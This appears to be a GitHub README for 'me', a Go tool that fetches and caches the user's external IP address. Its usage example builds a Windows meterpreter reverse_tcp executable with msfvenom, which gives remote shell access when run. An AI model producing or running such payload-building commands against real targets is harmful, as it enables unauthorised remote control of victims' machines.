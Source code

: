 # me

## Install

```
go install github.com/cokeBeer/me@latest
```

## Usage
For example, we can generate a meterpreter on VPS and fill the `LHOST` parameter simply by `me`
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=`me` LPORT=4444 >mp.exe
```
Your will never need to query your external ip and paste it again.

## how it work
For the first time, `me` will request some apis to get your external ip and save the ip to `$USER/.myexternalip`.
```
http://myexternalip.com/raw
http://api.ipify.org/
https://myexternalip.com/raw
https://api.ipify.org/
```
Next time, `me` will get the ip from file.
You can use `-f` option to make `me` query again, and use `-d` option to see debug information when occur errors.
